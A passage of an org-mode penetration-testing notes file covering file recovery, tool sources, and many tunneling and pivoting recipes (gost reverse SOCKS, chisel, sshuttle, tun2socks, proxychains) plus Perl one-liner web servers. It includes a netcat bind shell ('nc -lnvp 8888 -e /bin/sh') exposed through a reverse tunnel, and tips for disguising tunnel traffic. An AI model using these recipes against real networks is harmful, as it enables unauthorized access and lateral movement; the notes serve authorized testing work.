         debugfs -R "dump <8> <sdnN>.jnl" /dev/<sdnN>
       #+end_src
     - Unmount partition:
       #+begin_src sh
         umount /dev/<sdnN>
       #+end_src
     - List deleted files in last 6 hours:
       #+begin_src sh
         # Remove -j <jnl> if no journal dump
         ext4magic /dev/<sdnN> -a $(date -d "-6hours" +%s) -f <inspect/folder> -j <sdnN>.jnl -l
         # -f is the path from <sdnN> root
       #+end_src
     - Recover deleted files in last 6 hours:
       #+begin_src sh
         ext4magic /dev/<sdnN> -a $(date -d "-6hours" +%s) -f <inspect/folder> -j <sdnN>.jnl -r -d <dir-to-save>
         # Use -m instead of -r for < 100%
       #+end_src
*** .DS_Store
**** Python-dsstore
     - [[https://github.com/gehaxelt/Python-dsstore][Site]] - Parse .DS_Store cache content:
       #+begin_src sh
         python3 main.py .DS_Store | awk '!x[$0]++'
         # Removes duplicates
       #+end_src
** Signatures
   - [[https://en.wikipedia.org/wiki/List_of_file_signatures][List of file signatures]]

* Location Common Tools
** Windows
*** Official sites
    - Wayback machine has an entry for [[https://web.archive.org/web/20150208045558/http://support.microsoft.com/kb/927229][http://support.microsoft.com/kb/927229]] which contains many old tools that can be downloaded, including ~whoami~, ~setx~, and [[https://www.techsupportforum.com/threads/windows-2000-tasklist-equivalent-command.524240/][pulist]] (+ others for drivers, etc)
    - [[https://docs.microsoft.com/en-us/sysinternals/][SysInternals]] (maybe the original) may contain the rest of the tools (including ~schtasks~)
*** PLINK.exe
    - Kali - Incompatible: ~locate plink.exe~
    - WinXP usable + OpenSSH usable: [[https://the.earth.li/~sgtatham/putty/latest/w32old/plink.exe][w32old]]
    - All others (unchecked): [[https://the.earth.li/~sgtatham/putty/latest/w32/plink.exe][w32]] - [[https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe][w64]]
    - [[https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html][Official page]]
*** REG.exe and other admin tools
    - [[https://www.saule-spb.ru/touch/windows_files.html][saule-spb.ru]]
** Linux
*** static-get
    - [[https://github.com/minos-org/minos-static/blob/master/static-get][Script]] - [[http://s.minos.io/][s.minos.io]] static builds:
      #+begin_src sh
        # Search
        static-get -s <search-pkg>
        # Use the <pkg.tar.xz> below

        # Download
        static-get <pkg-from-search-results>
        # -o <dir> - Set download directory
      #+end_src

* Port Redirection
** Scanner Configuration / Fix
*** Nmap
    - Use ~gost~ to create a SOCKS tunnel + ~tun2socks~ to create a TUN and run ~nmap~ with ~-e <tun>~ (allows UDP + SYN Scan)
    - Alternatively use ~graftcp~ or ~proxychains~ for TCP CONNECT scan (~-sT~) only in unprivileged mode (~--unprivileged~), [[https://security.stackexchange.com/a/181111][see]]
    - The builtin alternative is to use the ~--proxies~ flag though note it is experimental and limited to SOCKS4 or HTTP proxy only for NSE scripts, or ~ncat~ in listen mode with proxy flags to a SOCKS5 (TCP only)
** VPN
*** Gost
    - Get the [[https://github.com/ginuerzh/gost/releases/][binaries]] (or [[https://github.com/caribpa/gost/tree/cmd-split][my changes]])
    - Supports [[https://docs.ginuerzh.xyz/gost/en/tuntap/][TUN/TAP tunnels]] (admin in both sides required)
    - TODO - Check if gost TUN to SOCKS is possible by setting the routing table as showed in the SSH VPN section
    - Fallback to [[https://docs.ginuerzh.xyz/gost/en/port-forwarding/#remote-tcp-port-forwarding][reverse-SOCKS-tunnel]] + use ~tun2socks~ (faster) or ~graftcp~
*** SSHuttle
    - [[https://github.com/sshuttle/sshuttle][Repository]]
    - Python and SSH required in the target
    - Route all the 192.168.1.0 traffic through the ssh server:
      #+begin_src sh
        sshuttle --dns -r <user>@<ip> 192.168.1.0/24
      #+end_src
    - Only [[https://sshuttle.readthedocs.io/en/stable/tproxy.html][tproxy]] method supports UDP
    - Reverse tunnels require some fiddling:
      - [[https://github.com/sshuttle/sshuttle/issues/421#issuecomment-622968427][Reverse SOCKS]]
      - [[https://github.com/sshuttle/sshuttle/issues/597#issuecomment-784563155][Double sshuttle]]
*** TODO Tfunnel
    - [[https://github.com/pisto/tfunnel][Repository]]
    - C++ Replacement for ~sshuttle --method=tproxy~
*** TODO SSH
    - Admin privileges in both sides required
    - [[https://book.hacktricks.xyz/tunneling-and-port-forwarding#vpn-tunnel][See how to do it]] - [[https://artkond.com/2017/03/23/pivoting-guide#vpn-over-ssh][also here]] - [[https://pentestwiki.org/pivoting/#h-4-pivoting-with-vpn-over-ssh][and here]]
*** TODO DSVPN
    - [[https://github.com/jedisct1/dsvpn][Project]] - [[https://balaskas.gr/blog/2019/07/20/a-dead-simple-vpn/][Configuration]]
*** TODO TinyVPN
    - [[https://github.com/wangyu-/tinyfecVPN][Project]] - Has builtin FEC
*** TODO Leaf
    - [[https://github.com/eycorsican/leaf][Project]]
*** TODO n2n
    - [[https://github.com/ntop/n2n][Project]] - Peer to Peer VPN
*** TODO Iodine
    - Admin privileges in both sides required
    - Tunnel through DNS
    - [[https://code.kryo.se/iodine/][Site]]
*** TODO Hans
    - Admin privileges in both sides required
    - Tunnel through ICMP
    - [[https://github.com/friedrich/hans][Respository]]
*** TODO Socat
    - Admin privileges in both sides required
    - Tunnel through SSL
    - [[https://www.cybrary.it/blog/0p3n/creating-ssl-vpn-socat/][How to]] - [[https://youremindmeofmymother.com/2015/04/06/socat-vpn-openssl-tunnel-interface/][also here]] - [[https://opentechnotes.blogspot.com/2014/07/poor-mans-ssl-vpn-with-socat.html][and here]]
*** Linux Tunnels
**** TODO IP-to-IP
     - Admin privileges in both sides required
     - [[https://lartc.org/howto/lartc.tunnel.ip-ip.html][How to]]
**** TODO GRE tunnel
     - Admin privileges in both sides required
     - [[https://lartc.org/howto/lartc.tunnel.gre.html][How to]]
** SOCKS / Dynamic
*** Tunnel Creation
**** Gost
***** Binaries
      - Get the [[https://github.com/ginuerzh/gost/releases/][binaries]]
      - Or just compile it: ~make linux-amd64~
      - ~auto~ schemas (not specifying the protocol/transport) for the endpoints almost always achieve the *fastest results*
      - Set the ~?udp=true~ flag on the listener and last http/socks forwarder for [[https://latest.gost.run/en/tutorials/port-forwarding/#forwarding-chain][UDP-over-TCP]]
***** Bypass Conditions
      - Use the ~?bypass~ flag with a file or a list of IPs, CIDR and domains with wildcards
      - See the file structure on the [[https://v2.gost.run/en/bypass/][docs]]
***** Reverse SOCKS
****** Through unavoidable intermediate Proxies
       - The method is almost the same as below:
         #+begin_src sh
           # Example: Must tunnel through PAC proxy
           pacproxy -c <pac.file> -l 127.0.0.1:8008

           # Just add this proxy as first forwarder
           gost -L 127.0.0.1:8888 -- -L rtcp://127.0.0.1:8010/127.0.0.1:8888 -F http://127.0.0.1:8008 -F auto+auto://<ip>:8080
           # Change to http2 if supported by the
           # intermediate proxy
         #+end_src
****** Over SSH
       - [[https://docs.ginuerzh.xyz/gost/en/port-forwarding/#ssh-port-forwarding-mode][Docs]] - [[https://docs.ginuerzh.xyz/gost/en/ssh/#pubkey-authentication-211][Auth docs]] - [[https://docs.ginuerzh.xyz/gost/en/ssh/#usage][Heartbeat docs]]
       - *Prefer QUIC/UDP-protos*: Are around 10 times faster than TCP ones
       - *Prefer TLS+Websockets/HTTP 2.0*: are faster
       - Note that the SSH server can be a non-gost one (like sshd)
       - Server (using [[https://github.com/caribpa/gost/tree/cmd-split][my changes]]):
         #+begin_src sh
           # The server will be the client
           gost -L socks5://127.0.0.1:1080?udp=true -F relay://127.0.0.1:8010 -- -L forward+ssh://:2222
           # The -- -L ... can be removed if using
           # a non-gost ssh server
         #+end_src
       - Client (using [[https://github.com/caribpa/gost/tree/cmd-split][my changes]]):
         #+begin_src sh
           # The client will be the server
           gost -L relay://127.0.0.1:8888 -- -L rtcp://127.0.0.1:8010/127.0.0.1:8888 -F forward+ssh://<ip>:2222
           # Relay performance flags:
           # ...relay://127.0.0.1:8888?nodelay=true
           #                          &bind=true
           # ^ Relay only has bind=true in Gost v3
           # SSH Heartbeat:
           # ...ssh://<ip>:2222?ping=60
           # Non-gost SSH Authentication:
           # ...ssh://<user>:<pass>@<ip>:2222
           # or ssh://<ip>:2222?ssh_key=<rsa>
         #+end_src
       - ~relay~ appears to be faster than ~auto~ (nothing) or ~socks5~
       - ~forward+ssh~ automatically selects ~direct~ and ~reverse~ modes but only works as the last proxy
       - How it works:
         1. S1080 -> S8010 -> S2222 -> C8888:
         2. (S)erver listens in TCP 1080&2222
         3. (C)lient listens in TCP 8888 and
         4. C starts a TCP 8010 listener in S
         5. via SSH (2222) redirected to 8888
         6. S 1080 port is redirected to 8010
****** Over QUIC
       - [[https://docs.ginuerzh.xyz/gost/en/port-forwarding/#remote-udp-port-forwarding][Docs]] - [[https://docs.ginuerzh.xyz/gost/en/socks/#socks5-over-quic][QUIC]] - [[https://docs.ginuerzh.xyz/gost/en/ss/#shadowsocks-over-kcp][Shadowsocks over KCP]]
       - If QUIC (UDP) gets slow/[[https://github.com/lucas-clemente/quic-go/issues/310#issuecomment-253555550][unreliable]] try [[https://docs.ginuerzh.xyz/gost/en/kcp/][KCP]] (UDP + improved latency vs bandwidth tradeoff + [[https://github.com/xtaci/kcptun#forward-error-correction][error correction]]), or TCP transport protocols [[https://docs.ginuerzh.xyz/gost/en/ws/][like websockets]] or transports/protocols to disguise the servers as HTTP ones ([[https://docs.ginuerzh.xyz/gost/en/simple-obfs/][ss+ohttp]], [[https://docs.ginuerzh.xyz/gost/en/obfs4/][obsf4]], [[https://docs.ginuerzh.xyz/gost/en/sni/][sni]], [[https://docs.ginuerzh.xyz/gost/en/http2/#tunnel-mode][socks5+h2]] or just ~http~)
       - Gost-SOCKS default transport is [[https://docs.ginuerzh.xyz/gost/en/socks/#socks5-negotiated-encryption][TLS]], prefer [[https://docs.ginuerzh.xyz/gost/en/ss/][Shadowsocks]] for security (UDP traffic [[https://github.com/shadowsocks/go-shadowsocks2/issues/73][not supported]])
       - Server (using [[https://github.com/caribpa/gost/tree/cmd-split][my changes]]):
         #+begin_src sh
           # The server will be the client
           gost -L socks5://127.0.0.1:1080?udp=true -F 127.0.0.1:8010 -- -L socks5+quic://:8080
         #+end_src
       - Client - [[https://docs.ginuerzh.xyz/gost/en/port-forwarding/#socks5-bind-method-with-multiplexing-enabled][mSOCKS]] + [[https://docs.ginuerzh.xyz/gost/en/quic/#keep-alive][keep-alive]] QUIC:
         #+begin_src sh
           # The client will be the server
           gost -L 127.0.0.1:8888?udp=true -- -L rtcp://127.0.0.1:8010/127.0.0.1:8888 -F socks5+quic://<ip>:8080?keepalive=true&mbind=true
           # rudp + forward tricks don't work
         #+end_src
****** Over Websockets
       - Server (using [[https://github.com/caribpa/gost/tree/cmd-split][my changes]]):
         #+begin_src sh
           # The server will be the client
           gost -L socks5://127.0.0.1:1080?udp=true -F relay://127.0.0.1:8010?nodelay=true -- -L tls+ws://:8080?compression=true
           # Is ?enableCompression=true on Gost v3
         #+end_src
       - Client:
         #+begin_src sh
           # The client will be the server
           gost -L relay://127.0.0.1:8888?nodelay=true -- -L rtcp://127.0.0.1:8010/127.0.0.1:8888 -F tls+ws://<ip>:8080?compression=true&mbind=true
           # ^ Relay has bind=true in Gost v3
         #+end_src
       - Check whether [[https://v2.gost.run/en/ws/#multiplex-websocket][websocket multiplexing]] (~mws~) improves or worsens the performance
       - In my tests ~mws~ is very inconsistent when used to scan a single port
       - Use websockets over TLS on their own with ~wss~ or ~mwss~
***** Auto HTTP + Socks5 Proxy on Reverse Proxy
      - Use 2 ~auto~ listeners with an ~auto~ forwarder
        #+begin_src sh
          # On our server - Use one of the above
          gost -L 127.0.0.1:1080 -F auto://[...]

          # On Reverse Proxy - Using my changes
          gost -L 127.0.0.1:8888 -F 127.0.0.1:8010 -- -L 127.0.0.1:8010

          # Test it with curl
          curl -x http://127.0.0.1:1080 <site>
          curl -x socks5://127.0.0.1:1080 <site>
        #+end_src
      - This tricks bypasses the case where the 8888 listener gets a Proxy CONNECT from any of the intermediate forwarders encapsulating Socks5
***** Access the Client's Network from Server
      - Using the SOCKS tunnel:
        #+begin_src sh
          # Server side - ncat (>7.91) check:
          ncat --proxy 127.0.0.1:1080 --proxy-type socks5 -nv <client-side-ip> <client-side-port>

          # Server side - curl check:
          curl -s -x socks5://127.0.0.1:1080 -L http://<client-http-server> | w3m -T text/html

          # Server side - nmap/wireshark...
          # use tun2socks with TCP 1080
        #+end_src
      - Bind-netcat (remove the appropriate client/server ~-L ...~ configuration):
        #+begin_src sh
          # Client side:
          nc -lnvp 8888 -e /bin/sh

          # Server side:
          nc -nv 127.0.0.1 8010
         #+end_src
***** Transparent Proxy
      - [[https://docs.ginuerzh.xyz/gost/en/redirect/][Docs]] - Linux only (requires iptables)
      - Transparently redirect all TCP and UDP traffic to a given network
**** Chisel
***** Binaries
      - Get the binaries from the [[https://github.com/jpillora/chisel/releases][releases]]
***** Reverse SOCKS5
      - The proxy is opened on the server-side
      - Server:
        #+begin_src sh
          # key: non-mandatory - put anything
          chisel server -p 8010 --socks5 --reverse --key test
          # Annotate the fingerprint value
        #+end_src
      - Client:
        #+begin_src sh
          # Put fingerprint in <server-print>
          chisel client --fingerprint "<server-print>" <ip>:8010 R:1080:socks
          # Proxy on port 1080 on server-side
        #+end_src
**** PLINK.EXE
     - Forward SOCKS/Dynamic:
       #+begin_src bat
         plink -ssh -N -l <usr> -pw <pass> -D 1080 <usr>@<ip>
       #+end_src
     - Reverse SOCKS/Dynamic doesn't seem to work in ~plink~
*** Tunnel Usage
**** tun2socks
     - Creates a TUN interface (admin required) redirecting the traffic to a SOCKS5 server
     - Shadowsocks (~ss~) and Direct (~direct~) proxy modes are [[https://github.com/xjasonlyu/tun2socks/blob/main/proxy/proto/proto.go][also supported]]
     - Get the binaries from the [[https://github.com/xjasonlyu/tun2socks/releases][release page]]
     - Or use the [[https://github.com/ambrop72/badvpn/wiki/Tun2socks][BadVPN]] version ([[https://unix.stackexchange.com/a/144569][config]])
     - TUN configuration ([[https://github.com/xjasonlyu/tun2socks/issues/32][ref]]):
       #+begin_src sh
         ip tuntap add mode tun dev tun10

         # Only these two lines are needed
         # if tun2socks was previously run:
         ip addr add 10.0.0.1/31 dev tun10

         ip link set tun10 up
       #+end_src
     - Usage:
       #+begin_src sh
         # Use ss for shadowsocks
         tun2socks -device tun://tun10 -tcp-auto-tuning -loglevel warning -proxy socks5://127.0.0.1:1080
         # direct just creates a tun proxying
         # to the system DNS/routes
       #+end_src
     - ~ss~ requires a [[https://github.com/Dreamacro/go-shadowsocks2/blob/master/core/cipher.go#L30][cipher]] and pass, [[https://github.com/shadowsocks/go-shadowsocks2/issues/73][no-UDP]]:
       #+begin_src sh
         tun2socks -device tun://tun10 -loglevel warn -proxy ss://AEAD_CHACHA20_POLY1305:<pass>@127.0.0.1:1080
         # Gost has a different cipher syntax
         # Same ss://<cipher:pass>@<ip:port>
       #+end_src
     - Nmap config:
       #+begin_src sh
         # The -n causes major speed-up
         nmap -sS -sU -sV -Pn [...] -e tun10 -n <target-machine-ip>
       #+end_src
**** Ipio
     - [[https://github.com/txthinking/ipio/releases][Binaries]] - designed mainly for [[https://github.com/txthinking/brook][Brook]] server
     - Usage:
       #+begin_src sh
         ipio tun2socks5 -s 127.0.0.1:1080 --doNotChangeAnything
         # Configure the TUN as shown in the
         # tun2socks > TUN configuration
       #+end_src
**** Graftcp
     - Not based on ~LD_PRELOAD~, works on static binaries
     - Get the binaries from the [[https://github.com/hmgle/graftcp/releases][release page]]
     - Usage:
       #+begin_src sh
         # Remember to use TCP CONNECT scans
         mgraftcp --http_proxy <ip:port> --select_proxy_mode only_http_proxy -n <cmd>
         # --select_proxy_mode: Use for local addrs
         # -n              - Proxy local addresses
         # --socks5 <ip:p> - Proxy via socks5
         # --socks5_password <pass>
         # --socks5_username <user>
       #+end_src
     - Prior to v0.4
       - Server
         #+begin_src sh
           # Run with sudo if sudoing graftcp
           graftcp-local -loglevel 3 -socks5 :1080
         #+end_src
       - Client
         #+begin_src sh
           # -n proxies localhost (127.0.0.1)
           # making nmap ... 127.0.0.1 work
           graftcp -n <command>
         #+end_src
**** ProxyChains
     - Hack based on ~LD_PRELOAD~ (linux)
     - Modify the last line of ~proxychains.conf~ to use the 1080 port, also check if using socks4 vs socks5
     - You may want to uncomment ~quiet_mode~
     - Use is as follow:
       #+begin_src bat
         :: Python pip works
         proxychains_win32_x86.exe -f proxychains.conf <program>
       #+end_src
**** Browser
     - Unfortunately neither IE nor Edge seem to like the proxy settings, the only alternative appears to be downloading [[https://portableapps.com/redirect/?a=FirefoxPortable&s=s&d=pa&f=FirefoxPortable_87.0_English.paf.exe][Firefox Portable]] and configure to use the socks5 proxy
** Individual Ports
*** Gost
**** SSH
     - [[https://docs.ginuerzh.xyz/gost/en/port-forwarding/#ssh-port-forwarding-mode][Docs]] - [[https://docs.ginuerzh.xyz/gost/en/ssh/#pubkey-authentication-211][Auth]]
     - Note: ~forward~ mode *only supports TCP*
     - Forward TCP - SSH native:
       #+begin_src sh
         # Server
         gost -L forward+ssh://:2222

         # Client
         gost -L tcp://127.0.0.1:8080/:80 -F forward+ssh://<ip>:2222?ping=60
       #+end_src
     - Reverse UDP - SSH encapsulated:
       #+begin_src sh
         # Server -> will be the client
         gost -L ssh://:2222

         # Client -> will be the server
         gost -L rudp://:5353/<dns-ip>:53 -F ssh://<ip>:2222?ping=60
         # Ignore the log about SOCKS
       #+end_src
**** Simple TCP/UDP Redirection - Direct
     - [[https://docs.ginuerzh.xyz/gost/en/port-forwarding/#local-tcp-port-forwarding][Docs]]
     - Forward TCP:
       #+begin_src sh
         gost -L tcp://127.0.0.1:3333/<ip>:1212
       #+end_src
     - Reverse UDP:
       #+begin_src sh
         # Reverse requires a proxy listening
         gost -L rudp://:5353/<dns-ip>:53 -F <ip>:3355
       #+end_src
     - Forward Tunnel over TLS:
       #+begin_src sh
         # Server
         gost -L tls://:8443/<target-ip>:80

         # Client
         gost -L tcp://:8080 -F forward+tls://:8443
         # Connect to client
       #+end_src
**** Multiple TCP/UDP Redirection - Relay
      - [[https://docs.ginuerzh.xyz/gost/relay/][Docs]]
      - Only port-forwarding/tunneling is supported (but you can bypass this with a reverse-tunnel + SOCKS5 wrap)
      - Port forwarding:
        #+begin_src sh
          # Server
          gost -L relay://:9999

          # Client
          gost -L udp://:5353/<dns>:53 -L tcp://:8080/:80 -F relay://<ip>:9999?nodelay=true
          # UDP: C 5353 -> S 9999 -> <dns>:53
          # TCP: C 8080 -> S 9999 -> S 80
        #+end_src
      - Forward tunnel:
        #+begin_src sh
          # Server
          gost -L relay://:9999/<dns>:53

          # Client
          gost -L udp://:5353 -L tcp://:8080 -F relay://<ip>:9999?nodelay=true
          # UDP: C 5353 -> S 9999 -> <dns>:53
          # TCP: C 8080 -> S 9999 -> <dns>:53
        #+end_src
      - The ~nodelay~ flag (default ~false~) will only relay the connection to the server if data is received from the client
      - This means that simple port-pinging or connection won't be transparently relayed unless the flag is ~true~
*** mr2
    - [[https://github.com/txthinking/mr2/releases][Binaries]]
    - [[https://github.com/txthinking/mr2#server-and-client][Usage]] - Reverse port forwarding:
      #+begin_src sh
        # Server
        mr2 server -l :9999 -p password

        # Client
        mr2 client -s <ip>:9999 -p password -P 8888 -c 127.0.0.1:8080
        # Server's port 8888 redirect to
        # client's 8080
      #+end_src
    - Reverse directory listing:
      #+begin_src sh
        # Server
        mr2 server -l :9999 -p password

        # Client
        mr2 client -s <ip>:9999 -p password -P 8888 --clientPort 8080 --clientDirectory <path>
        # <path> will be accessible over
        # server's 8888
      #+end_src
*** Socat
    - Forward redirection ([[https://stackoverflow.com/a/31194939][ref1]], [[https://serverfault.com/a/407382][ref 2]]):
      #+begin_src sh
        # Local 8080 redirected to <ip>:80
        socat TCP-LISTEN:8080 TCP:<ip>:80

        # With DNS forwarding
        socat TCP-LISTEN:8080,fork SOCKS4A:127.0.0.1:<ip>:80,socksport=5678
      #+end_src
*** PLINK.exe
    - Reverse redirection:
      #+begin_src bat
        plink.exe -ssh -N -l <user> -pw <pass> -R 192.168.1.1:1212:127.0.0.1:6000 192.168.1.1 <user>@<host>
      #+end_src
*** Rinetd
    - [[https://github.com/samhocevar/rinetd][Project]]
    - Create the configuration (~rinetd.conf~):
      #+begin_src conf
        # lhost lport rhost rport
        <lip>   80    <rip> 80
      #+end_src
    - Start in the foreground:
      #+begin_src sh
        rinetd -f -c rinetd.conf
      #+end_src
** HTTP Proxy
*** Gost
    - [[https://docs.ginuerzh.xyz/gost/en/http/][Simple HTTP(S)]] or [[https://docs.ginuerzh.xyz/gost/en/http2/][HTTP2]]:
      #+begin_src sh
        # HTTP
        gost -L http://:8080

        # HTTPS
        gost -L https://:8080

        # HTTP2
        gost -L http2://:8080

        # HTTP 1.1 to HTTP 2.0
        gost -L http://:8080 -F http2://:9090 -- -L http2://:9090
        # http & ohttp -> HTTP 1.1 transports
        # h2c  & h2    -> HTTP 2.0 transports
      #+end_src
    - [[https://docs.ginuerzh.xyz/gost/en/port-forwarding/#forward-tunnel][TLS to SNI forwarding]]:
      #+begin_src sh
        # Server
        gost -L tls://:4433/:3344 -L sni://:3344
        # SNI is a TLS extension to specify
        # the target domain to the server

        # Client
        gost -L :8080 -F forward+tls://<ip>:4433
      #+end_src
    - [[https://docs.ginuerzh.xyz/gost/relay][Relay HTTP/SOCKS]]:
      #+begin_src sh
        # Server
        gost -L relay+tls://:1080

        # Client
        gost -L :8080 -F relay+tls://<ip>:1080?nodelay=false
      #+end_src
    - Proxy Usage - Curl:
      #+begin_src sh
        curl -s -x http://127.0.0.1:8080 -L https://<site> | w3m -T text/html
      #+end_src
*** TODO Netsh
    - [[https://andykdocs.de/development/Windows/Proxy+Configuration+via+Command+Line][How to]]
** SSL / TLS Proxy
*** Gost
    - Strip TLS from incoming traffic:
      #+begin_src sh
        gost -L tls://127.0.0.1:4433/127.0.0.1:8080

        # Test it with a netcat listener:
        echo -ne 'HTTP/1.0 404\r\nContent-Length: 0\r\n\r\n' | nc -lnvp 8080

        # And curl connecting via HTTPS
        curl -i -k https://127.0.0.1:4433
      #+end_src
    - Add TLS to outgoing traffic:
      #+begin_src sh
        # The response includes a CONNECT header
        gost -L tcp://127.0.0.1:8080/127.0.0.1:8008 -L tcp://127.0.0.1:8008 -F tls://127.0.0.1:4433

        # Test it with a netcat listener:
        nc -lnvp 4433

        # And curl connecting via HTTP
        curl http://127.0.0.1:8080

        # Decode it back:
        gost -L tls://127.0.0.1:4433 -F sni://127.0.0.1:8888
      #+end_src
*** stunnel
    - [[https://www.stunnel.org/howto.html][Site]] - Add SSL/TLS to local HTTP services
      #+begin_src sh
        # Note that gost should also work

        # Useful for making php -S HTTPS
        php -S 127.0.0.1:8080 &

        # Generate a cert
        openssl req -new -x509 -days 365 -nodes -out crt.pem -keyout crt.pem -batch

        # Add HTTPS on 4433 IPv4
        stunnel3 -d 0.0.0.0:4433 -r 8080 -f -p crt.pem -P /tmp/.stunnel.pid
        # -P <path> is needed for non-root
      #+end_src
** Listeners
*** Authbind
    - [[https://www.chiark.greenend.org.uk/ucgi/~ian/git/authbind.git/][Site]] - Bind < 1024 ports as non-root:
      #+begin_src sh
        # Netcat bind in port 80 as non-root
        authbind nc -lnvp 80
      #+end_src

* Web Servers & Proxies
** HTTP
*** Perl
    - Core Perl listeners - Return 404:
      #+begin_src sh
        # Connection timeout set to 5 seconds
        # Localhost only, listens to 80 and 443
        perl -le '$SIG{CHLD}=IGNORE;$"=",pack+";$p=fork//die?80:443;socket+S,2,1,6;eval"setsockopt+S,@$_"for["1,2","l,1"],["1,13","ii,1,5"],["1,21",q/"l!2",5/],["6,18","L,5000"];bind+S,pack+snsnN2,2,$p,127,1;listen+S,1;close$;while(accept$;,S),fork//1;print$;("HTTP/1.0 404\r\nContent-Length: 0\r\n\r")'
        # The first socket call is equivalent to:
        #   socket$s,PF_INET,SOCK_STREAM,
        #            getprotobyname("tcp")
        # Packed arrays structure:
        # [ <Sock-Level>, <Level-Opt>, <Rest*> ]
        # Sock-Level 1 -> SOL_SOCKET
        #   Level-Opt 2  -> SO_REUSEADDR
        #   Level-Opt 13 -> SO_LINGER
        #   Level-Opt 21 -> SO_SNDTIMEO
        #   See man socket7, asm-generic/socket.h
        # Sock-Level 6 -> getprotobyname("tcp")
        #              or Socket::IPPROTO_TCP
        #   Level-Opt 18 Socket::TCP_USER_TIMEOUT
        #   See man tcp7 & ip7, and linux/tcp.h

        # See if the socket options are set
        perl -E '$"=",pack+";$,=" ";socket$s,2,1,6;map{eval"setsockopt\$s,@$_;say unpack\"(H2)*\",getsockopt\$s,$$_[0]"}["1,2","l,1"],["1,13","ii,1,5"],["1,21",q/"l!2",5/],["6,18","L,5000"]'

        # Minimal on 0.0.0.0, no timeout nor reuse
        # Causes errors on the clients
        perl -e '$SIG{CHLD}=IGNORE;$_=fork//die?80:443;socket+S,2,1,6;bind+S,pack+sn7,2,$_;listen+S,1;close$;while(accept$;,S),fork//1;shutdown$;,2'
        # shutdown results in "Empty reply" error
        # Remove shutdown for "Connection reset"

        # The pack magic comes from this
        perl -MSocket -E '$,=" ";say+unpack"(H2)*",sockaddr_in+8888,127.0.0.1'
        # ^ using pack with hex-encoded addr is:
        perl -E 'say join" ",unpack"(H2)*",pack+snN3,2,8888,0x7f000001'
        # Or compacted:
        perl -E 'say join" ",unpack"(H2)*",pack"(sn)4",2,8888,127,1'
        # Or full IP - comma delimited:
        perl -E 'say join" ",unpack"(H2)*",pack+snC12,2,8888,192,168,1,1'
        # Or full IP - v-string (not portable):
        perl -E 'say join" ",unpack"(H2)*",pack+sna12,2,8888,127.0.0.1'
        # Or full IP - v-string (portable):
        perl -E 'say join" ",unpack"(H2)*",pack+snN3,2,8888,unpack+N,127.0.0.1'
      #+end_src
    - Core Perl Webserver - HTTP/1.1 Keep-alive:
      #+begin_src sh
        # Serves from current dir - To serve from /
        #  $_=".$1" -> $_=-d$1?"$1/index.html":$1
        perl -e '$SIG{CHLD}=IGNORE;$"=",\$f=pack+";socket+S,2,1,6;eval"setsockopt+S,@$_"for["1,2","l,1"],["1,13","ii,1,5"],["6,1","l,1"],["6,18","L,5000"],["1,21",q/"l!2",5/];bind+S,pack+snN3,2,<PORT>,unpack+N,<IP>;listen+S,5;$/="\r\n"x2;close$:while(accept$:,S),fork//1;setsockopt$:,1,20,$f;$_=".$1",$f=2<<14,map{send$:,$_,$f}"HTTP/1.1 ",open(F,"<",-d?$_.="/index.html":$_)?200:404,"\r\nContent-Type: ",'"$(perl -MSocket -e '$"=",pack+";socket+S,2,1,6;eval"setsockopt+S,@$_"for["1,13","ii,1,5"],["6,18","L,5000"],map["1,2$_",q/"l!2",5/],0,1;connect+S,sockaddr_in+80,inet_aton$_="svn.apache.org";$/="\r\n"x2;send+S,"GET /viewvc/httpd/httpd/trunk/docs/conf/mime.types?view=co HTTP/1.0\r\nHost: $_$/",0;<S>;$_=<S>;y/ /|/;s!^([^#]+?)\s+(.+)!print"/\\.($2)\$/n?\"$1\":"!gem')"'"application/octet-stream","\r\nContent-Length: ",0+-s,$/,<F>,$f=()while<$:>=~/\s([^\s?]+)/'
        # Allows dir traversal - Fix it with:
        #   <$:>=~/\s((?:(?!\.\.)[^\s?])+)/
        #
        # Opts in addition to those explained above
        # Sock-Level 1 -> SOL_SOCKET
        #   Level-Opt 20 -> SO_RCVTIMEO
        # Sock-Level 6 -> getprotobyname("tcp")
        #   Level-Opt 1 -> TCP_NODELAY
        # send flag (send(2) - bits/socket.h)
        #   MSG_MORE -> 0x8000 -> 2<<14

        # Hash version - Highest performance
        perl -e '$SIG{CHLD}=IGNORE;%m=("'$(perl -MSocket -e '$"=",pack+";socket+S,2,1,6;eval"setsockopt+S,@$_"for["1,13","ii,1,5"],["6,18","L,5000"],map["1,2$_",q/"l!2",5/],0,1;connect+S,sockaddr_in+80,inet_aton$_="svn.apache.org";{local$/="\r\n"x2;send+S,"GET /viewvc/httpd/httpd/trunk/docs/conf/mime.types?view=co HTTP/1.0\r\nHost: $_$/",0;<S>}($_,@_)=split,$,=qq/","$_","/,/^#/||print@_,""while<S>')'");$"=",\$d=pack+";socket+S,2,1,6;eval"setsockopt+S,@$_"for["1,2","l,1"],["1,13","ii,1,5"],["6,1","L,1"],["6,18","L,5000"],["1,21",q/"l!2",5/];bind+S,pack+snN3,2,<PORT>,unpack+N,'$(hostname -i)';listen+S,5;$/="\r\n"x2;$f=2<<14;close$:while(accept$:,S),fork//1;setsockopt$:,1,20,$d;$_=".$&",$d=$f,map{send$:,$_,$d}"HTTP/1.1 ",open(F,"<",-d?$_.="/index.html":$_)?200:404,"\r\nContent-Type: ",$m{s/.+\.//r}//"application/octet-stream","\r\nContent-Length: ",0+-s,$/,<F>,$d=()while<$:>=~/\s([^\s?]+)/'
        # If no internet or no Socket module, use
        awk '/^.$/,0{if(!/^#/&&$2){gsub(" ","|");printf"/\\.(%s)$/?\"%s\":",$2,$1}}' mime.types
        # In the command substitution with:
        # http://svn.apache.org/viewvc/httpd/httpd/trunk/docs/conf/mime.types?view=co
      #+end_src
** WPAD/PAC & NTLM
*** dePAC
    - [[https://github.com/creaktive/dePAC][Site]] ([[https://raw.githubusercontent.com/creaktive/dePAC/master/depac][raw]]) - Native Perl PAC proxy
      #+begin_src sh
        # Backgrounds by default -> depac --stop
        perl depac --wpad_file <url/file> --bind_port 8080 --log_file /dev/null
        # Add 127.0.0.1 to the dnsResolve func
        # as return string instead of ()
        # Start a Perl server listening to 80/443
      #+end_src
*** pacproxy
    - [[https://github.com/williambailey/pacproxy][Site]] - Go PAC proxy with binaries
      #+begin_src sh
        # Able to directly parse JS
        pacproxy -c <url/file/js> [-l<host:port>]
        # -l defaults to 127.0.0.1:8080
      #+end_src
*** alpaca
    - [[https://github.com/samuong/alpaca][Site]] - Go PAC proxy supporting NTLM auth
      #+begin_src sh
